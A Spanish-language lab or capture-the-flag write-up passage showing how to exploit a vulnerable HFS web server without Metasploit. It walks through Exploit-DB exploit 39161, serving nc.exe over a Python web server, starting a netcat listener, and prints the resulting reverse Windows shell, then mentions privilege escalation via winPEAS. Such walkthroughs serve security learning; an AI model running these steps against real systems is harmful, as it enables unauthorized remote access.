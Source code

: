 
## 4. Lo mismo pero sin Metasploit

Para explotar la vulnerabilidad se debe descarar el siguiente exploit https://www.exploit-db.com/exploits/39161

Una vez descargado debemos hacer un par de cosas antes de proceder:

1. Modificar parámetros del script

```
...
ip_addr = "10.8.153.49" #local IP address
local_port = "4443" # Local Port number
...
```

2. Copiar binario nc.exe y dejarlo en una carpeta a compartir (usare la raiz)

```
cp /usr/share/windows-resources/binaries/nc.exe .
```
3. Levantar servidor web para compartir archivo
```
python -m http.server 80
```
4. Levantar listener ncat
```
nc -lvp 4443
```
5. Correr script (a mi script le puse silver.py pero puede ser cualquier nombre)
```
python2 silver.py 10.10.92.216 8080
```

Eso nos levantará la shell en winlol
```
listening on [any] 4443 ...
10.10.92.216: inverse host lookup failed: Unknown host
connect to [10.8.153.49] from (UNKNOWN) [10.10.92.216] 49232
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
```

Estando dentro, descargamos winpeas, vemos que tiene vulneración de Path y seguimos el mismo procedimiento que con Metasploit.

---
Happy exploiting - Zpx